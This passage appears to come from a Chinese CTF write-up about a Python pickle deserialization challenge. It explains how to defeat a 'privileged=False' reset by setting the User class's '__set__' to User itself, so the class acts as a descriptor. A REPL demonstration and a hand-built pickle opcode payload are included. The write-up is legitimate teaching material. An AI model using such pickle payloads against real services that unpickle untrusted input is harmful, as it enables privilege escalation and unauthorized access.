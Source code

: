 之前说有两个解题思路,命令执行这一个思路在看了一会之后就觉得不太行,毫无头绪

再康康让`user.privileged=False`失效这一思路,emmmm感觉也不太行.

但是,类的赋值肯定会受到一些特殊函数的影响

在研究类的赋值的时候可以找到[描述符]( https://foofish.net/what-is-descriptor-in-python.html )可以自定义赋值函数

那么如果我们能让User的`__set__`变成一个接受3个参数的函数,就可以令`user.privileged=False`无效

但是很显然pickle里是无法直接编写代码的,令`__set__=""`?更不行,会直接报错



继续阅读代码我们会发现一个神奇的东西

```python
class User(object):
    def __init__(self, name, group):
        self.name = name
        self.group = group
        self.isadmin = 0
        self.prompt = ''
        print("name:%s ,group:%s"%(name,group))
```

`User.__init__`刚好接受三个参数

我们能不能让`__set__=User`?,然后调用`__set__`的时候调用`User.__init__`

```python
>>> setattr(User,'test',User(123,123))
name:123 ,group:123
>>> setattr(User,"__set__",User)
>>> b=User(123,123)
name:123 ,group:123
>>> b.test=123123
name:<structs.User object at 0x0000017BA1538748> ,group:123123
```



于是构造:

```python
a=__import__("structs").User
b=User("123","456")
setattr(a,"privileged",b)
setattr(a,"__set__",a)
return b
```

对应的pickle代码为

```
cstructs
User
p100
(S"123"
S"456"
tRp101
g100
(N}S'privileged'
g101
sS'__set__'
g100
stbg101
.
```
